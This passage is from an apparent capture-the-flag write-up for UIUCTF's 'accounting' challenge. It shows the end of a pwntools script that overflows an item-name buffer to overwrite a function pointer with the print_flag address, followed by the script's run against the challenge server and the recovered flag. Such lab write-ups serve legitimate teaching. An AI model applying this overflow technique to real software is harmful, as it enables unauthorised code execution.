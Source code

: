     print(conn.recvuntil("Item: "))
    exp = b"A"*0x10
    exp += p32(flag_addr)
    conn.sendline(exp)

    # First price input
    print(conn.recvuntil("Shrub Trimming Cost: "))
    conn.sendline('26')

    # Second price input
    print(conn.recvuntil("Raymond Hush $$ Cost: "))
    conn.sendline('27')

    # Third price input
    print(conn.recvuntil("Town Hall Food Cost: "))
    conn.sendline('21')

    # Last price input
    print(conn.recvuntil("New Wall Art Cost: "))
    conn.sendline('22')
    
    conn.interactive()

if __name__ == "__main__":
    main()
{% endraw %}
{% endhighlight %}


Running the exploit script against the challenge server:
{% highlight text %}
{% raw %}
➜  accounting python solve.py REMOTE
[+] Opening connection to chal.uiuc.tf on port 2001: Done
b'[NookAccounting]: Booting up Fancy Laser Accounting Generator (F.L.A.G.) at {'
print_flag address:  0x8048878
b'\n[NookAccounting]: Added "Apples" with cost of 10 bells to accounting spreadsheet.\n[NookAccounting]: Added "Fancy Seashells" with cost of 20 bells to accounting spreadsheet.\n[NookAccounting]: Added "Tom Nook Shirts" with cost of 30 bells to accounting spreadsheet.\n[NookAccounting]: Added "Airplane Ticket" with cost of 40 bells to accounting spreadsheet.\n[NookAccounting]: Added "ATM Repairs" with cost of 50 bells to accounting spreadsheet.\n[Isabelle]: Oh no! I cant seem to find what this item is, but it cost 25 bells, what is it?\nItem: '
b'[Isabelle]: Ohmygosh! Thank you for remembering! Now I can get back to work!\n[NookAccounting]: Added "AAAAAAAAAAAAAAA" with cost of 25 bells to accounting spreadsheet.\n\n[Isabelle]: Ohmyheck! I dont know how much "Shrub Trimming" costs. Can you tell me?\nShrub Trimming Cost: '
b'[NookAccounting]: Added "Shrub Trimming" with cost of 26 bells to accounting spreadsheet.\n\n\n[Isabelle]: Thank you so much! You\'re the best, I added it to the accounting system now\n[Isabelle]: Ohmyheck! I dont know how much "Raymond Hush $$" costs. Can you tell me?\nRaymond Hush $$ Cost: '
b'[NookAccounting]: Added "Raymond Hush $$" with cost of 27 bells to accounting spreadsheet.\n\n\n[Isabelle]: Thank you so much! You\'re the best, I added it to the accounting system now\n[Isabelle]: Ohmyheck! I dont know how much "Town Hall Food" costs. Can you tell me?\nTown Hall Food Cost: '
b'[NookAccounting]: Added "Town Hall Food" with cost of 21 bells to accounting spreadsheet.\n\n\n[Isabelle]: Thank you so much! You\'re the best, I added it to the accounting system now\n[Isabelle]: Ohmyheck! I dont know how much "New Wall Art" costs. Can you tell me?\nNew Wall Art Cost: '
[*] Switching to interactive mode
[NookAccounting]: Added "New Wall Art" with cost of 22 bells to accounting spreadsheet.


[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x8048878
uiuctf{1s@beLl3_do3sNt_r3@l1y_d0_MuCh_!n_aCnH}
{% endraw %}
{% endhighlight %}


[NookAccounting]: Booting up Fancy Laser Accounting Generator (F.L.A.G.) at {0x8048878}
[NookAccounting]: Added "%x %x %x AAAAAA" with cost of 25 bells to accounting spreadsheet.
[NookAccounting]: Added "Shrub Trimming" with cost of 1 bells to accounting spreadsheet.
[NookAccounting]: Added "Raymond Hush $$" with cost of -1 bells to accounting spreadsheet.
[NookAccounting]: Added "Town Hall Food" with cost of 0 bells to accounting spreadsheet.
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x80487a6